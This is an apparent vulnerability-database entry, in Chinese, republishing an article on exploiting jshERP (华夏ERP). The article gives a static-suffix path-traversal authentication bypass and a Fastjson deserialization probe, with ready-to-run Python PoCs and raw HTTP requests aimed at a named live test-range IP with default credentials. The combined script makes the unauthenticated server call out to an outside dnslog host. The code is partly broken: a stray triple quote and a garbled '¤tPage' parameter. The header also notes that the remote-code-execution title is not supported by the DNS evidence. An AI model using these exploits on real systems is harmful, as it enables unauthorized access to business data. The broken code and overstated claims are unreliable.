# 华夏/jshERP 静态后缀认证绕过+Fastjson DNS探测

## 条目说明

- 对象与具体问题：华夏/jshERP；静态后缀认证绕过+Fastjson DNS探测
- 版本、配置及部署条件：无ERP版；Fastjson1.2.55源码与靶场不同已披露
- 认证与权限前提：无Cookie绕过；代码执行还需gadget环境
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Inet4Address DNS回连仅证明类型处理/解析，不足支持未授权命令执行标题
- 认证POC末尾孤立三引号语法损坏；requests可能规范化/../需静态说明，不执行
- 组合socket脚本含¤无法ascii编码，且GET含¤tPage转码错误
- 不能把依赖版本或DNS结果自动推RCE

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eHjaIrqgYFiw5DVLg7BY8w)

开场还是这个测试靶场

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为授权绕过漏洞，后台命令执行漏洞，然后再打一个组合拳进行未授权命令执行。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

一、授权绕过漏洞  

漏洞复现：

该项目利用 filter 做登录判断

```
com.jsh.erp.filter.LogCostFilter
```



其中值得关注的是 ignoredList，如果 url 中存在 ignoredList 则不需要认证。

我们去寻找 ignoredList，发现它在同一文件内，如下：



可以看到匹配的值为：

```
.css#.js#.jpg#.png#.gif#.ico
```

那么绕过认证的 payload 我们就可以随便写了，如下：

```
/a.css/../
```

如未登录查看系统配置：



以上数据都为测试生成的数据，为虚假数据，如有雷同纯属巧合

```http
GET /a.css/../systemConfig/list?search=%7B%22companyName%22%3A%22%22%7D¤tPage=1&pageSize=10 HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/manage/systemConfig.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

来个 POC 吧，验证起来方便

使用方式：

```
python3 华夏erp未授权.py http://ip:port
```

源码：  

```
import sys,requests

def main(ip):
    url = "{ip}/a.css/../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
'''
```

二、后台命令执行漏洞

漏洞复现：  

漏洞代码位置：

```
com.jsh.erp.controller.DepotHeadController
```

漏洞代码分析：

pom.xml 文件中引用了 fastjson，且版本为 1.2.55  



查看代码发现 com.jsh.erp.controller.DepotController 存在反序列化



但在靶场站点未找到该接口，推测靶场站代码未更新，发现流量中存在另一个使用 search 参数的接口，进行反序列化测试：



对了要 URL 编码一下。。。  



接下来就是见证奇迹的时刻，dnslog 收到 dns 请求！



三、组合拳 - 未授权命令执行  

利用方式：

很简单，就是两个漏洞合并一下，如下：



可以看到我是没有携带 Cookie 的，dnslog 依然收到了请求  



组合拳的 POC：  

使用方法：

```
python3 华夏erp_fastjson.py x.x.x.x 80 qingy.dnslog.cn (替换你的dnslog地址)
```

源码：

```
import socket,sys,re

def SendGet(res,ip,port):
    request = re.sub('[\r\n]','\r\n',res)
    port = int(port)
    sock = socket.socket()   # 建立socket
    sock.connect((ip, port))    # 远程连接
    sock.send(request.encode('ascii'))  # 向socket发送数据
    response = b''   
    chunk = sock.recv(4096)    # 从socket接收数据
    print(chunk.decode())
def main(ip,port,dnslog):
    test = '{"@type":"java.net.Inet4Address","val":"'+ dnslog +'"}'
    test = test.encode('utf-8')
    test = ''.join('%{:02X}'.format(x) for x in test)
    res = '''GET /a.css/../depotHead/list?search={data}¤tPage=1&pageSize=10 HTTP/1.1
Host: {host}
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.47
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

'''.format(data=test,host=ip+':'+port)
    #print(res)
    SendGet(res,ip,port)
main(sys.argv[1],sys.argv[2],sys.argv[3])
```

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  









本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  


扫取二维码获取

更多精彩


Qingy 之安全  


公众号


点个在看你最好看

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
